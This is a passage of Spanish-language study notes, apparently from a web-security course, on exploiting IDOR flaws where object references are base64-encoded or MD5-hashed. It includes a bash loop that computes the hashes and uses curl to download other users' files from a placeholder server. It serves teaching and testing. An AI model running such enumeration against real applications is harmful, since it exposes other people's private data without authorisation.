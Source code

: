 ![[Pasted image 20230123153122.png]]

### Comprender Hashing/Codificación

Algunas aplicaciones web pueden no usar números secuenciales simples como referencias de objetos, sino que pueden codificar la referencia o codificarla en su lugar. Si encontramos dichos parámetros utilizando valores codificados o hash, es posible que aún podamos explotarlos si no hay un sistema de control de acceso en el back-end.

Es posible que encontremos la referencia de objetos codificado en **base64**:

```bash
?filename=ZmlsZV8xMjMucGRm
```

o que usa el hash **MD5**:

```bash
download.php?filename=c81e728d9d4c2f636f067f89cc14862c
```

**EJEMPLO DE BASE64 + MD5**

![[Pasted image 20230123154246.png]]

![[Pasted image 20230123154328.png]]

```bash
echo -n 1 | base64 -w 0 | md5sum # cdd96d3cc73d1dbdaffa03cc6cd7339b
```

automatizar el proceso de encontrar archivos:

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

### Comparar roles de usuario

Si queremos realizar ataques IDOR más avanzados, es posible que debamos registrar varios usuarios y comparar sus solicitudes HTTP y referencias de objetos. Esto puede permitirnos comprender cómo se calculan los parámetros de URL y los identificadores únicos y luego calcularlos para que otros usuarios recopilen sus datos.

Por ejemplo, si tuviéramos acceso a dos usuarios diferentes, uno de los cuales puede ver su salario después de realizar la siguiente llamada a la API:

```json
{
  "attributes" : 
    {
      "type" : "salary",
      "url" : "/services/data/salaries/users/1"
    },
  "Id" : "1",
  "Name" : "User1"

}
```
